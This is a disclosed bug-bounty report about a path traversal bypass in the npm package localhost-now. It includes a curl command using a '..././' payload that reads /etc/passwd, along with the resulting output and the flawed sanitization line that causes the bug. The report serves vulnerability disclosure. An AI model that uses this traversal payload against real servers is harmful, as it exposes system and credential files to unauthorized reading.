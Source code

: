 # Bypass to defective fix of Path Traversal 

## Report Details
- **Report ID**: 329837
- **URL**: https://hackerone.com/reports/329837
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-03-25T23:16:51.194Z
- **Disclosed**: 2018-05-11T15:45:42.422Z

## Reporter
- **Username**: caioluders
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Path Traversal vulnerability in localhost-now. It allows to read arbitrary files on the server. This is a bypass on the mitigation of #312889 .

# Module

**module name:** localhost-now
**version:** 1.0.2
**npm page:** `https://www.npmjs.com/package/localhost-now`

## Module Description

>Am I the only one who is lazy to install Apache just for testing some HTML or JavaScript code (like XHR) ?

## Module Stats

[13] downloads in the last week

# Vulnerability

## Vulnerability Description

A path traversal attack aims to access files and directories that are stored outside the web root folder. 

## Steps To Reproduce:

* Install localhost-now
* Run localhost-now on directory
```
ec2-user@kali:~$ localhost 5432
Web Server started on localhost:5432
```
* Execute the curl command 
```
$ curl -v --path-as-is "http://IP:5432/..././..././..././..././..././..././..././..././..././..././etc/passwd"
root:x:0:0:root:/root:/usr/bin/fish
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

The problem resides on the line [17](https://github.com/DCKT/localhost-now/blob/master/lib/app.js#L17) as the code just delete all the '../' strings , allowing a payload like "..././" to be transformed back in "../" .

## Supporting Material/References:

- OS version :Linux kali 4.13.0
- NodeJS version : v8.10.0
- NPM version : 5.6.0

# Wrap up

- I contacted the maintainer to let them know: No
- I opened an issue in the related repository: No

## Impact

The attacker can read remotely all files on the server.

## Attachments
No attachments
